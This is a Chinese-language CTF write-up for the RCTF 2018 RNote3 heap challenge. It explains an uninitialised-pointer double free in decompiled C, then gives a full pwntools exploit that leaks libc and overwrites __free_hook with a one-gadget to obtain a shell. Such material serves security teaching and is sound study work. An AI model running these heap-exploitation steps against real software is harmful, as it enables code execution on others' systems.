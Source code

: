 # RNote3
## Author: Wenhuo
&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>先贴一下我学习的**NBUSEC**队伍的[原wp](https://github.com/sajjadium/ctf-writeups/blob/master/RCTF/2018/RNote3/rnote3_exploit.py)，我在这里解析一下。</font></br>
&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>这题二进制程序保护全开，只有一个libc可以改写GOT，同样通过覆盖libc中的地址来getshell，跟babyheap一样，得到oneshot的地址**0x4526a**和__free_hook的地址**0x3c67a8**。接下来开始分析这个二进制程序：</font></br>
&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>整个程序看上去无懈可击，但有一个隐秘的错误，就是一个函数中的ptr指针未初始化，连续调用这个函数的时候，由于ptr的垃圾数据还是上一次的，又可以继续free上次的note，也就是可以任意次数delete同一个note，再加上edit note的函数里的可以写入title的大小过大，最终导致被攻破：</font></br>

```C
__int64 del_chunk()
{
  signed int i; // [sp+4h] [bp-1Ch]@1
  void *ptr; // [sp+8h] [bp-18h]@0
  char title; // [sp+10h] [bp-10h]@1
  __int64 v4; // [sp+18h] [bp-8h]@1

  v4 = *MK_FP(__FS__, 40LL);
  printf("please input note title: ");
  get_input((__int64)&title, 8u);
  for ( i = 0; i <= 31; ++i )
  {
    if ( link[i] && !strncmp(&title, (const char *)link[i], 8uLL) )
    {
      ptr = (void *)link[i];
      break;
    }
  }
  if ( ptr )
  {
    free(*((void **)ptr + 2));
    free(ptr);
    link[i] = 0LL;
  }
  else
  {
    puts("not a valid title");
  }
  return *MK_FP(__FS__, 40LL) ^ v4;
}


__int64 edit_chunk()
{
  signed int i; // [sp+4h] [bp-1Ch]@1
  __int64 the_chunk; // [sp+8h] [bp-18h]@1
  char title; // [sp+10h] [bp-10h]@1
  __int64 v4; // [sp+18h] [bp-8h]@1

  v4 = *MK_FP(__FS__, 40LL);
  the_chunk = 0LL;
  printf("please input note title: ");
  get_input((__int64)&title, 0x20u);
  for ( i = 0; i <= 31; ++i )
  {
    if ( link[i] && !strncmp(&title, (const char *)link[i], 8uLL) )
    {
      the_chunk = link[i];
      break;
    }
  }
  if ( the_chunk )
  {
    printf("please input new content: ");
    get_input(*(_QWORD *)(the_chunk + 16), *(_QWORD *)(the_chunk + 8));
  }
  else
  {
    puts("not a valid title");
  }
  return *MK_FP(__FS__, 40LL) ^ v4;
}
```

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>那么接下来我们先泄露libc地址，如果不明白内存管理可以先看[这篇](https://paper.seebug.org/255/)，我们首先分配一个fastbin大小的堆块然后对其连续free两次，接下来分配的两个堆块（一个smallbin，如果是fastbin不会有fd泄露）就会**重叠在同一个地址**上，当对其中的一个smallbin进行free了之后，再view一下另一个堆块就可以查看到被free堆块的fd指针，从而泄露出libc基地址，偏移可以通过调试得到。</font></br>

```python
def add_note(title, content_size, content):
    p.sendline('1')
    p.recvuntil('please input title: ')
    p.send(title)
    p.recvuntil('please input content size: ')
    p.sendline(str(content_size))
    p.recvuntil('please input content: ')
    p.send(content)

def view_note(title):
    p.sendline('2')
    p.recvuntil('please input note title: ')
    p.send(title)

def edit_note(title, content):
    p.sendline('3')
    print p.recvuntil('please input note title: ')
    p.send(title)
    print p.recvuntil('please input new content: ')
    p.send(content)

def delete_note(title):
    p.sendline('4')
    p.recvuntil('please input note title: ')
    p.send(title)

p.recvuntil('5. Exit\n')

add_note('a' * 8, 24, 'a' * 24)

delete_note('a' * 8)
delete_note('a' * 8)

add_note('\x00' * 8, 24, 'b' * 24)
add_note('c' * 8, 256, 'c' * 256)
add_note('d' * 8, 24, 'd' * 24)

delete_note('c' * 8)

view_note('\x00' * 8)

p.recvuntil('note content: ')
libc_base = u64(p.recv(6) + '\x00\x00') - 0x3c4b78
print 'libc base: {}'.format(hex(libc_base))
```

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>接下来就是use-after-free利用了，不太了解的可以看一下[这篇文章](https://blog.csdn.net/qq_31481187/article/details/73612451)。</font></br>
&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>use-after-free通常用来修改一些敏感数据或者地址指针，我们在这里修改堆块地址，将堆块地址修改到libc中的__free_hook处，然后就可以把这个的地址修改为oneshot的地址然后getshell了：</font></br>

```python
delete_note('d' * 8)
#返回了原先'd'*8 title的第一个堆块和smallbin的一个堆块，这个时候出现了偏差。
add_note('e' * 8, 256, 'e' * 256)
#这里申请'f'*8的title的时候返回了上一个'd'堆块的content块，然后申请'f'堆块的content的堆块时
#malloc返回了上一个'c'堆块的title块，这时候从content写入数据的时候相当于从title开始写入，
#可以修改title，size，和其content堆块的地址，在这里把content堆块的地址到libc的__free_hook处。
add_note('f' * 8, 24, '\x00' * 8 + p64(24) + p64(libc_base + freehook))

edit_note('\x00' * 7 + '\n', p64(libc_base + oneshot) + '\n')

delete_note('\x00' * 8)
p.interactive()

```

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>所以最终脚本如下：</font></br>

Exploit脚本:
=======

```python
from pwn import *

oneshot=0x4526A
freehook=0x3c67a8

DEBUG = 1

if DEBUG == 1:
  p=process('./RNote3')
  context(log_level='debug')
  gdb.attach(p)
else:
  p=remote('rnote3.2018.teamrois.cn',7322)

def add_note(title, content_size, content):
    p.sendline('1')
    p.recvuntil('please input title: ')
    p.send(title)
    p.recvuntil('please input content size: ')
    p.sendline(str(content_size))
    p.recvuntil('please input content: ')
    p.send(content)

def view_note(title):
    p.sendline('2')
    p.recvuntil('please input note title: ')
    p.send(title)

def edit_note(title, content):
    p.sendline('3')
    print p.recvuntil('please input note title: ')
    p.send(title)
    print p.recvuntil('please input new content: ')
    p.send(content)

def delete_note(title):
    p.sendline('4')
    p.recvuntil('please input note title: ')
    p.send(title)

p.recvuntil('5. Exit\n')

add_note('a' * 8, 24, 'a' * 24)

delete_note('a' * 8)
delete_note('a' * 8)

add_note('\x00' * 8, 24, 'b' * 24)
add_note('c' * 8, 256, 'c' * 256)
add_note('d' * 8, 24, 'd' * 24)

delete_note('c' * 8)

view_note('\x00' * 8)

p.recvuntil('note content: ')
libc_base = u64(p.recv(6) + '\x00\x00') - 0x3c4b78
print 'libc base: {}'.format(hex(libc_base))

delete_note('d' * 8)
add_note('e' * 8, 256, 'e' * 256)
add_note('f' * 8, 24, '\x00' * 8 + p64(24) + p64(libc_base + freehook))

edit_note('\x00' * 7 + '\n', p64(libc_base + oneshot) + '\n')

delete_note('\x00' * 8)
p.interactive()

```
